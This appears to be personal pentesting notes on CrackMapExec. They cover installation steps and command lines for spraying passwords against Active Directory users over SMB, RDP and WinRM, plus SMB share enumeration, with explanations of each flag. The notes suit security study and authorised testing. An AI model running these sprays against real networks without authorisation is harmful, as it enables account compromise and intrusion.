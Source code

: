 > A swiss army knife for pentesting Windows/Active Directory environments.
> 
> From enumerating logged on users and spidering SMB shares to executing psexec style attacks, auto-injecting Mimikatz/Shellcode/DLL’s into memory using Powershell, dumping the NTDS.dit and more.


#Active_Directory_Authentication #Password_Attacks #SSH #SMB #WinRM #MSSQL #FTP

# Download

Install latest version (6.0.1 Bane)
```
https://wiki.porchetta.industries/getting-started/installation/installation-on-unix#apt-package-kali-linux-only
```
```bash
python3 -m pip install pipx
git clone https://github.com/mpgn/CrackMapExec
cd CrackMapExec
pipx install .
pipx ensurepath
```
- Located at `/home/kali/.local/pipx/venvs/crackmapexec/bin/`

# Usage

Spray a password against AD users via SMB
```bash
crackmapexec smb 192.168.50.69 -u users.txt -p 'Sussy123!' -d hentai.com --continue-on-success
```
- `smb`
	- Protocol to use
- `192.168.50.69`
	- IP address of any domain joined system 
- `-u`
	- A list of users or a single user
- `-p` 
	- Password to spray 
- `-d` 
	- Domain
- `--continue-on-success`
	-  to avoid stopping at the first valid credential
- CrackMapExec outputs _STATUS_LOGON_FAILURE_ when a password for an existing user is not correct, but also when a user does not exist at all.

Spray a password against AD users via RDP
```bash
crackmapexec rdp 192.168.169.10 192.168.169.11 -u user_file.txt -p 'Sussybaka!' -d hentai.com --continue-on-success
```

Spray passwords against AD users via WinRM
```bash
cme winrm 192.168.169.10 192.168.169.11 -u users.txt -p passwords.txt -d hentai.com --continue-on-success
```

Spray passwords specifying port
```bash
crackmapexec http 192.168.169.0/24 --port 2222
```

Listing SMB shares
```bash
crackmapexec smb 192.168.169.101 -u hentaisalesman -p "qweRtYaSDd#fG" --shares
```
